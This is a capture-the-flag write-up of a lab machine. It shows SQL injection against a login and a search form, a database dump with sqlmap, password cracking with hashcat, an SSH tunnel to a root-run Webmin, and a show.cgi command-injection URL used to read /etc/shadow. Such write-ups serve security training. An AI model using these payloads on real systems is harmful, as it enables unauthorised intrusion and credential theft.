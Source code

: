 # what I learned
- sqlmap
- checking opent socket connection `ss -tulpn`
- Reverse SSH port forwarding
- read more about exploit, msfconsole is not only one solution. you can try something else too.


# enumerate
- 22/tcp open  ssh
- 80/tcp open  http
  - Apache/2.4.18 (Ubuntu)
  - **gobuster**
    - /images (Status: 301)
    - /index.php (Status: 200)
    - /portal.php (Status: 302)

# foothold
the log in form is vulnerable to SQLi. I try username `admin`, pass `' or 1=1 -- -` but it didnt works. I then try to insert `' or 1=1 -- -` as username instead.

Vola, it redirected me to */portal.php*. there is a search form that can be use to searching for a game review. is it also vulnerable to SQLi?. let insert `' or 1=1 -- -` in the search form. 

![sqli](pic/Screenshot%202020-07-27%20at%2012.32.50.png)

yep we got all the reviewed game. which mean it is vulnerable to SQLi.

now we gonna use SQLmap which is a automatic SQL injection and database takeover tool. the plan is use it to dump the whole database. let start with open *burpsuite* and intercept the get request when we using search bar.

copy all reqest header and save it in a .txt file. we will use it in SQLmap.

```console
bibo318@parrot:~/THM/game$ ls
req.txt
bibo318@parrot:~/THM/game$ head req.txt 
POST /portal.php HTTP/1.1
Host: 10.10.102.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.102.254/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Connection: close
bibo318@parrot:~/THM/game$ sqlmap -r req.txt --dbms=mysql --dump
```
you will get 2 table.
1. post: contains all game review
2. user: user:password

now let crack the password using *hashcat*
```console
$ hashcat -m 1400 -a 0 -o crack.txt 'hash' /usr/share/wordlists/rockyou.txt --force
```
now ssh to the server and get user flag
```console
agent47@gamezone:~$ sudo -l
[sudo] password for agent47: 
Sorry, user agent47 may not run sudo on gamezone.
```
# root
check socket connections:
```console
agent47@gamezone:~$ ss -tulpn
Netid State      Recv-Q Send-Q  Local Address:Port                 Peer Address:Port              
udp   UNCONN     0      0                   *:10000                           *:*                  
udp   UNCONN     0      0                   *:68                              *:*                  
tcp   LISTEN     0      80          127.0.0.1:3306                            *:*                  
tcp   LISTEN     0      128                 *:10000                           *:*                  
tcp   LISTEN     0      128                 *:22                              *:*                  
tcp   LISTEN     0      128                :::80                             :::*                  
tcp   LISTEN     0      128                :::22                             :::* 
```
use `curl` to flind more about web socket port 10000. seem like it run `Webmin`. now let check `ps aux` and find out if webmin is run by root. if so we migh can use it to escalate and gain root priv.

```console
agent47@gamezone:~$ ps aux | grep webmin
root      1235  0.0  1.2  75020 25928 ?        Ss   05:11   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
```
Bingo ! webmin is running by root


We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the `IPtable` list). However, Using an SSH Tunnel we can expose the port to us (locally)!


If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com.` Going to `localhost:9000` on your machine, will load imgur traffic using your other server.

on kali
```console
bibo318@parrot:~/THM/game$ ssh -L 9999:localhost:10000 agent47@$IP
```
now visite localhost:9999. I tried to loging with defualt credential but it didnt works. I then try using agent47 credential. Bingo !

after I got ther webmin version and research about exploit. I found [this](https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_show_cgi_exec) so let use `msfconsole` then


Damn it! it didnt works for me. then I found [this](https://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf) in References of the msf modules link (previous link)


read page 2 under *3  Technical Explanation* you will find some juciy infomation.
`“https://webminserver.dom.com/file/show.cgi/bin/echo|ls%20–la|”`
you can manipulate this the last part of url (after `/file/show.cgi/bin/`) and make it return the file you want.



**hint**: `/file/show.cgi/bin/echo|cat%20 something`
you want to get root access? use the same method but cat /etc/shadow instead then crack root's password.

GLHF
